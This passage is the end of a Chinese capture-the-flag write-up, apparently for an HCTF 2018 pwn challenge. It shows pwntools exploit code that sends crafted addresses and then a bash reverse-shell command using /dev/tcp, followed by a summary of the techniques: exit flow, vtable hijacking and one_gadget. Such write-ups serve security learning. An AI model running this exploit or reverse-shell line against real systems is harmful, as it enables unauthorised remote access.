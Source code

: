 ```python
p.send(q2)
p.send(p64(aim))
p.send(p1)
p.send(p64(aim+1))
p.send(p2)
p.send(p64(aim+2))
raw_input()
p.send(p3)

p.sendlineafter(")","/bin/bash -c 'bash -i >/dev/tcp/0.0.0.0/4444 0>&1'")
p.interactive()
```
# summary
虽然学会了之后感觉比较简单但其实内容还是很丰富的...

* exit 流程
* vtable hijacking 
* one_gadget setting
* reserve shell



[1]:https://github.com/veritas501/hctf2018
[2]:https://github.com/n132/Watermalon/tree/master/HCTF_2018/the_end